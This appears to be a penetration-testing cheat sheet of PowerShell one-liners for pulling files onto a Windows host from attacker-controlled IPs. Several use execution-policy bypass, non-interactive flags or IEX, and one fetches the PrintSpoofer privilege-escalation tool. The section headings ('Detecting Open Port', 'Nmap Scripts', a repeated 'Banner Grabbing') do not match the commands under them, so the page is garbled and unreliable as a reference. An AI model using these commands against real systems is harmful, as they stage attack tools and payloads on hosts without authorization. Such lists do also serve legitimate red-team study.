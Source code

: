 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### Detecting Open Port
	
     powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\demo.txt')

**Nmap Scripts**

       powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://192.168.1.143/1.txt' -Destination 'c:\temp\1.txt'"

**Banner Grabbing**
	
        $webClient.DownloadFile('http://192.168.1.143:80/1.txt','c:\temp\1.txt')

**Banner Grabbing**
	
        iwr -uri http://192.168.45.240/printspoofer.exe -Outfile printspoofer.exe

**Banner Grabbing**
	
        powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143:80/1.txt','C:\Users\public\1.txt')

**Banner Grabbing**
	
        powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143/1.txt','C:\temp\1.txt')"

**Banner Grabbing**
	
        echo IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143:80/1.txt','C:\Users\public\1.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile

**Banner Grabbing**
	
        powershell.exe -c wget "http://10.10.14.17/1.txt" -outfile "c:\temp\1.txt"

**Banner Grabbing**
	
        powershell.exe -c "curl.exe http://192.168.1.143:80/1.txt c:\temp\1.txt"	

**Banner Grabbing**
	
        powershell.exe Invoke-RestMethod -Uri "http://192.168.1.143/1.txt" -OutFile "c:\temp\1.txt"

**Banner Grabbing**
	
        powershell.exe Invoke-webRequest -Uri "http://192.168.1.143/1.txt" -OutFile "c:\temp\1.txt"
